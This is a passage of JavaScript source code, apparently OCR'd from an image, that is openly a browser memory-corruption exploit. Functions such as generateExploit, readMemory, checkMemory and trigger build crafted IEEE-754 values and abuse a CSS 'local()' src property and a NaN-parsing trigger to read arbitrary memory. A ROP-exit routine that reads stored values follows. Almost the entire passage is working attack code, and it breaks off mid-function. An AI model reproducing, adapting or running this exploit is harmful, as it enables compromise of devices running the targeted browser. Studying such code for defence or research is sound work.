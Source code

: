 		(size >> 24) & 0xFF,
		(size >> 16) & 0xFF,
		(size >> 8) & 0xFF,
		(size) & 0xFF
	);
	return fromIEEE754(hex, 11, 52);
}
function generateExploit(address, size)
{
	var n = (address<<32) | ((size>>1)-1);
	return generateIEEE754(address, (n-address));
}

function readMemory(address, size)
{
	if(document.getElementById('exploit')){document.getElementById('exploit').style.src = "local(" + generateExploit(address, size) + ")";}
	else {throw "exploit div: HTML error!";}
}
function checkMemory(address, size, len)
{
	if(size<len){throw "checkMemory function arguments error! size=0x"+size.toString(16)+" < len=0x"+size.toString(16);}
	if(document.getElementById('exploit'))
	{
		readMemory(address, size);
		if(debug===true)
		{
			var x=document.getElementById('exploit').style.src.substr(6,len);
			logAdd("checkMemory: "+x.toAscii(true));
			return x;
		}
		return document.getElementById('exploit').style.src.substr(6,len);
	}
	else {throw "exploit div: HTML error!";}
}

function trigger(exploit_addr){
	if(document.getElementById('trigger')){document.getElementById("trigger").innerHTML = -parseFloat("NAN(ffffe" + exploit_addr.toString(16) + ")");}
	else {throw "trigger div: HTML error!";}
}

//####################################################################################################################################################################
function rop_exit_5val(suc,fail,fail1,fail2,fail3,fail4,fail5)
{
	// operations to execute on ROP exit
	var t_val=xtra_data.substr(store_idx_arr1[0],2).toAscii(true);
	var t_val2=xtra_data.substr(store_idx_arr1[1],2).toAscii(true);
	var t_val3=xtra_data.substr(store_idx_arr1[2],2).toAscii(true);
	var t_val4=xtra_data.substr(store_idx_arr1[3],2).toAscii(true);
	var t_val5=xtra_data.substr(store_idx_arr1[4],2).toAscii(true);
	var t_val6=xtra_data.substr(store_idx_arr2[0],2).toAscii(true);
	var t_val7=xtra_data.substr(store_idx_arr2[1],2).toAscii(true);
	var t_val8=xtra_data.substr(store_idx_arr2[2],2).toAscii(true);
	var t_val9=xtra_data.substr(store_idx_arr2[3],2).toAscii(true);
	var t_val10=xtra_data.substr(store_idx_arr2[4],2).toAscii(true);
	var tmp;
	//logAdd('store_idx='+store_idx_arr1[0].toString()+br+'t_val='+t_val+br+'store_idx2='+store_idx_arr1[1].toString()+br+'t_val2='+t_val2+br+'store_idx3='+store_idx_arr1[2].toString()+br+'t_val3='+t_val3);
	//logAdd('store_idx4='+store_idx_arr1[3].toString()+br+'t_val4='+t_val4+br+'store_idx5='+store_idx_arr1[4].toString()+br+'t_val5='+t_val5+br+'store_idx6='+store_idx_arr2[0].toString()+br+'t_val6='+t_val6);